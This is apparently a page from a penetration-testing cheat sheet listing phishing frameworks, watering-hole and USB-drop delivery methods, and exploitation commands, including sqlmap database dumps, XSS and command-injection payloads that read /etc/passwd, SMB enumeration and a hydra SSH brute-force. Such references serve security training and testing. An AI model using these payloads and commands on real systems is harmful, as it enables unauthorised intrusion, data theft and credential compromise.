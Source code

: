 #### Phishing Frameworks
```bash
# Gophish
gophish
# Access web interface on :3333

# Social Engineer Toolkit (SET)
setoolkit
# Select spear-phishing attack vectors
```

### Watering Hole Attacks
Compromise websites visited by targets:

- **Target Website Analysis**: Identify frequently visited sites
- **Web Application Exploitation**: SQL injection, XSS, file upload
- **Client-Side Attacks**: Browser exploits, Java/Flash vulnerabilities

### Physical Delivery
- **USB Drops**: Rubber Ducky, Malicious USBs
- **Hardware Implants**: WiFi Pineapple, Packet Squirrel
- **Social Engineering**: Pretexting, tailgating, dumpster diving

---

## Exploitation

### Web Application Exploitation
```bash
# SQL Injection
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" --dump

# Cross-Site Scripting (XSS)
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>

# Command Injection
; cat /etc/passwd
| whoami
& net user
```

### Network Service Exploitation
```bash
# SMB vulnerabilities
smbclient -L //target.com
enum4linux target.com
smbmap -H target.com

# SSH brute force
hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://target.com
```
